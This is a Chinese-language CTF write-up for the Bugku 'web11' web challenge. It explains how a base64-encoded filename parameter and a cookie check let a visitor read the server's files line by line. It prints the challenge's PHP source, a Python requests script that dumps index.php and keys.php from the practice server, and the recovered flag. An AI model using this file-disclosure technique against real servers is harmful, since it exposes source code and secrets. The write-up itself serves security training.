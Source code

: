 ```yaml
---
title: bugku_web11
date: 2019-07-16
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```

# bugku_web11
## 题目地址：

http://123.206.87.240:8002/web11/index.php?line=&filename=a2V5cy50eHQ=

备注：我用的是python3

<!-- more -->

## filename=a2V5cy50eHQ=

文件包含

因为filename一般说明源代码中有读取打开文件的函数

从下面源码中可知的确含有函数file()

## base64格式

大小写字母+=/

# line=

可能与读取行数有关

# php函数

isset()判断是非设置值

header url重定向

in_array 第一个是匹配字符，第二个是数组

file 读取文件每一行

## 尝试文件读取的步骤

cookies 里面要有值

margin=margin

filename =keys.php

keys.php要base64加密a2V5cy5waHA=

获取的index.php的源码

```
<?php

error_reporting(0);

$file = base64_decode(isset($_GET['filename'])?$_GET['filename']:"");

$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");

$file_list = array(

'0' =>'keys.txt',

'1' =>'index.php',
'2'=> 'keys.php'

);

 

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){

$file_list[2]='keys.php';

}

 

if(in_array($file, $file_list)){

$fa = file($file);

echo $fa[$line];

}

?>
import requests
for a in range(0,100):
    index_url = 'http://123.206.87.240:8002/web11/index.php?line='+str(a)+'&filename=aW5kZXgucGhw'
    session = requests.session()
    index = session.get(index_url)
    if index.text!="":
        print(index.text)
    else:
        break;

for a in range(0,100):
    flag_url = 'http://123.206.87.240:8002/web11/index.php?line='+str(a)+'&filename=a2V5cy5waHA='
    cook = {
        'margin':'margin'
    }
    flag = session.get(flag_url,cookies=cook)
    if flag.text!="":
        print(flag.text)
    else:
        break
```

# key=’KEY{key_keys}

# 解题步骤总结

## 1.乱码试着解码

## 2.url中的filename尝试文件包含

## 3.编写脚本

## 4.代码审计

## 5.cookie满足要求

## 6.继续脚本发送获取key

# 题目所需基础知识

#### php基础语法,函数看不懂可以查,不急

#### python基础语法,函数看不懂可以查,不急

#### requests库基本操作

#### 了解一下说明是cookies和session

#### http的response和request，head

# 工具

解码网站：某个大佬的博客

https://www.wishingstarmoye.com/